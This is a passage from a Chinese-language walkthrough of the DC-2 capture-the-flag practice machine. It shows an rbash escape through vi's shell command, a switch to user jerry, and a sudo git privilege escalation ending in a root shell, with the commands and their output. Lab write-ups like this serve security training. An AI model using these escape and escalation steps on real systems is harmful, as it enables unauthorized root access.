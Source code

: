     - 根据 `flag3`的提示
        
        ```sql
        Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
        ```
        
        提示 `su for ..`
        
        因为我们的`shell`是`rbash` ，所以可能是`rbash`逃逸
        
        ```sql
        vi flag3.txt
        
        :set shell=/bin/sh
        :shell
        //进入shell
        //然后设置命令，不然就那几个
        export PATH=$PATH:/bin/
        export PATH=$PATH:/usr/bin/
        //env 查看环境变量
        ```
        
        根据提示 `su jerry` 使用之前得到的密码，登陆成功
        
    - 当前目录下存在`flag4`
        
        ```sql
        jerry@DC-2:~$ cat flag4.txt
        Good to see that you've made it this far - but you're not home yet. 
        
        You still need to get the final flag (the only flag that really counts!!!).  
        
        No hints here - you're on your own now.  :-)
        
        Go on - git outta here!!!!
        ```
        
        `git outta` 提示 `git` 提权（属于sudo提权里面的）
        
    - 查看当前权限，刚好是`git`
        
        ```sql
        jerry@DC-2:~$ sudo -l
        Matching Defaults entries for jerry on DC-2:
            env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
        
        User jerry may run the following commands on DC-2:
            (root) NOPASSWD: /usr/bin/git
        ```
        
    - `git`提权
        
        ```sql
        sudo git help config
        :!/bin/bash
        ```
        
        ```sql
        root@DC-2:/home/jerry#
        ```
        